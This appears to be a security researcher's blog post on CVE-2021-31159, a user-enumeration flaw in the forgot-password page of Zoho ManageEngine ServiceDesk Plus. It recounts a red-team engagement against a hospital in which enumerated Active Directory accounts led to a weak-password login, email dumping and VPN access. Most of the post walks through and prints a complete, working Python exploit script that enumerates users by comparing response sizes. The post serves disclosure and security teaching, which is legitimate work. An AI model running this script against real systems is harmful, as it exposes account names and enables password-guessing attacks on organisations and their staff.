 ```yaml
---
layout: post
description: Finding and abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
title: Finding and abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
excerpt_separator: <!--more-->
---
```


This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is constant.

<!--more-->

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image0.png?raw=true)


In the "forgot password" page, if the user does not exist you get a message like this:

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image1.png?raw=true)

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

![Login 2](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image2.png?raw=true)

Then I tested all the alphabet with other common surname, García, using Burp:

![Burp](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image3.png?raw=true)

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

![Python example](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image4.png?raw=true)

After this, I created a list with the common surnames in Spain (https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd) and enumerated many users. Luckily for me, they used the same format for the emails so I could get the credentials of one employee using other tool I created some time ago, https://github.com/ricardojoserf/adfsbrute and a very weak password (*Companyname123*). From there, I could dump all the emails from Azure, connect to the VPN... a succesful Red Team assesment, abusing such a silly vulnerability!


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
	users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
	correct_users = []
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is [this script]([https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py):

```
# Exploit Title: Zoho ManageEngine ServiceDesk Plus MSP - Active Directory User Enumeration (CVE-2021-31159)
# Date: 17/06/2021
# Exploit Author: Ricardo Ruiz (@ricardojoserf)
# CVE: CVE-2021-31159 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
# Vendor Homepage: https://www.manageengine.com
# Vendor Confirmation: https://www.manageengine.com/products/service-desk-msp/readme.html#10519
# Version: Previous to build 10519
# Tested on: Zoho ManageEngine ServiceDesk Plus 9.4
# Example: python3 exploit.py -t http://example.com/ -d DOMAIN -u USERSFILE [-o OUTPUTFILE]
# Repository (for updates and fixing bugs): https://github.com/ricardojoserf/CVE-2021-31159

import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```
